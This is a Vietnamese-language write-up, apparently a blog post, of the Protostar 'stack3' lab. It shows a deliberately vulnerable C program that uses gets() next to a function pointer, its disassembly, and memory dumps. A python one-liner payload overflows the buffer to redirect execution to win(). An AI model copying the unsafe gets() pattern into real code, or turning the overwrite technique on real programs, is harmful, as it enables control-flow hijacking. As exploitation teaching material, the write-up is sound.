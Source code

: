 ```yaml
---
layout: post
title: stack3
---
```

Trong những bài trước, chúng ta đã biết cách gán giá trị mong muốn gián tiếp cho một biến.
Ứng dụng của kỹ thuật này sẽ được giới thiệu trong stack3.
Mục tiêu của bài này là gán gián tiếp biến function pointer, và gọi hàm, hay cũng chính là điều hướng chương trình đến địa chỉ hàm cần gọi.
Hãy xem source code sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Ta cần gán cho function pointer `fp` địa chỉ của hàm `win`.
Khi source code được compile, symbol của `win` sẽ có mặt trong section .text của chương trình.
Để biết được địa chỉ của hàm `win`, ta có thể dùng chương trình `objdump` có trên linux.
Bạn cũng có thể dùng `gdb` với lệnh `disassemble` xem asm code của `win`, trong đó có cả thông tin về địa chỉ hàm.
Sau đây là asm code của `main` và `win`:
```asm
0x08048424 <win+0>:     push   ebp
0x08048425 <win+1>:     mov    ebp,esp
0x08048427 <win+3>:     sub    esp,0x18
0x0804842a <win+6>:     mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```
2 biến `buffer` và `fp` chiếm bộ nhớ liên tiếp nhau, lần lượt là 64 byte `esp + 0x1c` đến `esp + 0x5b` và 4 byte từ `esp + 0x5c`.
Áp dụng kỹ thuật tương tự như 3 bài trước, chúng ta sẽ nhập 68 byte cho `buffer`, trong đó 4 byte cuối có giá trị bằng với địa chỉ của `win`.
Địa chỉ của hàm `win` là `0x08048424`.
Trước khi nhập vào, bộ nhớ sẽ như sau.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">fp</span>.
<pre class="memory">
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x0804967c</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x0804830c</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804967c</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x080484a9</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048490</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804849b</span>      <span style="color:orangered">0x00000000</span>
</pre>
68 byte sau đây sẽ được dùng để nhập giá trị cho `buffer`:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\x24\x84\x04\x08'" > input.txt
stack3 < input.txt
```
Sau hàm `gets`, bộ nhớ tại `esp` sẽ như sau.

<pre class="memory">
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0x41414141</span>
0xbffff760:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff770:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff780:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff790:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x08048424</span>
</pre>

Địa chỉ, khi viết từng byte sẽ cần phải đảo ngược thứ tự để đảm bảo tiêu chuẩn Little Endian.

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\x24\x84\x04\x08'" > input.txt
user@protostar:~$ stack3 < input.txt
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
